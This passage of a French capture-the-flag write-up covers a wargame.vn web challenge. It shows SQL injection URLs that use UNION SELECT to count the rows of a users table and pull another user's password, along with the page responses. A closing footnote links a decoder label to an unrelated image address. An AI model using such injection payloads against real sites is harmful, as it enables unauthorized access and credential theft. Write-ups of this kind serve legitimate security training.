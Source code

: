 On sait désormais le nom des trois colonnes utilisées.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1-1 union select 1,(select count(*) from users),3--

>Hello 2!

Il y a deux utilisateurs dans la table users, le flag est donc surement le mot de passe de l'autre utilisateur.

    http://challenges.wargame.vn:1337/web100_d6da263d82cd07bd02cecf82f2b666b7/lev3l_$6_.php?id=1-1 union select 1,(select password from users where id<>1),3--

>Hello $level7_.php!

Bingo !

Bon je me suis arrêté là par manque de temps et de motivation mais c'était fun quand même.

[^1]: [SMS Text Message Decoder](http://www.dbcovers.com/image-of-half-nelson-2006-half_nelson_2006_1)

